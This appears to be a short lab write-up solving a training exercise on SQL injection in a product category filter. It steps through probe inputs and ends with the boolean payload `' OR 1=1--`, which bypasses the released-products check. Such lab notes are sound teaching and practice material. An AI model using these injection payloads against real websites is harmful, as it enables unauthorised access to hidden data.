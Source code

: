 **`Retrieving hidden data`**
**SQL injection: Product category filter**

*- SQL query like the following:*
> SELECT * FROM products WHERE category = 'Gifts' AND released = 1

*- Goal: `Display one or more unreleased products.`*

*- Analyze:*

1. SELECT * FROM products WHERE category = 'Gifts' AND released = 1
--> return Gifts page 
2. SELECT * FROM products WHERE category = ''' AND released = 1
--> return error page
3. SELECT * FROM products WHERE category = ''--' AND released = 1
--> return nothing
4. SELECT * FROM products WHERE category = '' OR 1=1--' AND released = 1
--> return full category of product by using true statement ( Boolean-based)

*`LAB SOLVED`*
![alt text](result.png)